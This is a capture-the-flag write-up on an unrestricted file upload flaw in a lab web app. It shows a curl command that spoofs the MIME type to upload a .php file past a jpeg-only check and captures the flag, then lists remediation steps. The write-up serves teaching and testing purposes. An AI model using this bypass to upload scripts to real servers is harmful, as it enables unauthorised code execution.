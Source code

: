# [WSTG-BUSL-08] Unrestricted File Upload

[Add image](http://192.168.56.101/?page=upload) contains a `<form>` element with attribute `enctype="multipart/form-data"` which specifies how the form-data should be encoded when submitting.

Only `jpeg` extension is allowed to be upload.

<img width="1021" alt="image" src="https://user-images.githubusercontent.com/46742040/202015974-04c11238-a64c-472b-a20b-43f59046f518.png">

`cURL` let emulate a filled-in form using `-F` option and set `Content-Type` header.

```sh
┌──$ [~/42/2022/darkly]
└─> touch /tmp/test.php
┌──$ [~/42/2022/darkly]
└─> curl -s -X POST -F "Upload=Upload" -F "uploaded=@/tmp/test.php;type=image/jpeg" "http://192.168.56.101/?page=upload" | grep -oE "The flag is : [[:alnum:]]{64}"
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## Remediation
The vulnerability that could occur if uploaded script files `php`, `asp`, `jsp`, etc... contains malicious code that can be executed. In order to prevent it:

- Restrict file types to only necessary ones
- Have at least some sort of filtering, content checking, and go through `whitelist` for uploaded file
- Remove all the control characters, or special charactres (i.e. `;`, `:` `<`, `>`, etc..) from the filenames
- Limit the filename, and file size
